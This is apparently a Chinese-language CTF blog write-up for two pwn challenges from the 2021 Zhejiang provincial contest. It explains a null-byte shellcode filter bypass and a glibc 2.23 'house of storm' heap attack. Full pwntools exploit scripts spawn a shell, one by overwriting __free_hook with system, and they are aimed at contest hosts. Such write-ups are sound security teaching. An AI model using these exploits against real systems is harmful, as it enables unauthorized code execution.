 ```yaml
---
layout:     post
title:      浙江2021省赛
subtitle:   pwn wp
date:       2021-10-24
author:     X1ng
header-img: 省赛.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


开始比赛前发现IDA打不开了。。。。难度不大，但是学到了新知识，，感谢 **@Alter**赛后科普house of strom

太菜了太菜了

### sxmz

逻辑很简单，输入shellcode，通过特定检测后直接执行shellcode，输入的字节为`\n`会填充对应位置内存为`\x00`，检测字符的时候遇到`\x00`结束检查，让shellocde的首字节为`\x00`绕过检查，首字节为`\x00`的汇编语句大多是形如`add	BYTE PTR [esi], al`这样的，查看寄存器确保对应寄存器所指向的地址可写，之后写shellcode调用`execve("/bin/sh",0,0)`即可

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='i386'

local=0
binary_name='sx'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51501)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

ru('少侠，请问尊姓大名：')

text='''
add	BYTE PTR [esi], al
mov esi,eax
xor edx,edx
xor ecx,ecx
mov eax,11
mov ebx,esi
add ebx,0x14
int 0x80
'''
opcode=asm(text)
print(opcode)
sl(opcode+b'/bin/sh')

ia()
```



### LargeRoom2

glibc-2.23下的house of strom：核心思想在于将个目标地址作为fake_chunk，通过unsorted_bin attack将fake_chunk放到unsorted_bin列表中，利用large_bin attack将fake_chunk的size位字节改为`\x55`（堆地址的最高位一般为`\x55`或`\x56`），申请`0x50`大小的chunk就能申请到目标地址，实现任意地址写

这题在edit的时候存在off-by-null漏洞，并且有个函数直接申请0x50大小的chunk，构造两个大chunk分别放在large_bin和unsorted_bin，unsorted_bin中的chunk要比large_bin中的略微大一点，但是要保证两者在large_bin中存放在同一index下，然后覆盖unsorted_bin的bk和large_bin的bk、bk_nextsize，再申请0x50即可任意地址写

exp：

```python
#!/usr/bin/python

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='LargeRoom2'
libc_name='libc.so.6'

libc=ELF("./"+libc_name)
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('152.136.122.197', 51200)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice :',str(num))

def add(sz):
	cho(1)
	sla('Size:',str(sz))

def edit(idx, val):
	cho(4)
	sla('The id of room:',str(idx))
	sla('New Content:',val)

def show(idx):
	cho(2)
	sla('The id of room:',str(idx))

def delete(idx):
	cho(3)
	sla('The id of room:',str(idx))

def lea(val):
	cho(5)
	sla('Your name:',val)


add(0x3f8)
add(0x418)#1 overlap

add(0x3f8)
add(0x3f0)
delete(0)
edit(1,b'a'*0x410+p64(0x420+0x400))
delete(2)
add(0x3f8)
add(0x900)

show(1)
ru('\n')
libcbase=leak_address()-0x3c5068
print('[+]libcbase: '+hex(libcbase))
system=libc.sym['system']+libcbase
print('[+]system: '+hex(system))
free_hook=libc.sym['__free_hook']+libcbase
print('[+]free_hook: '+hex(free_hook))

add(0x810)

add(0x508)#5

add(0x408)#6 overlap

add(0x3f8)
add(0x3f0)
delete(5)
edit(6,b'b'*0x400+p64(0x510+0x410))

delete(7)
add(0x508)
add(0xa000)
delete(4)

edit(5,'/bin/sh')
fake_chunk=free_hook-0x10
edit(1,p64(0)+p64(fake_chunk))
edit(6,p64(0)+p64(fake_chunk+8)+p64(0)+p64(fake_chunk-0x18-5))
lea(p64(system))
delete(5)



ia()
```







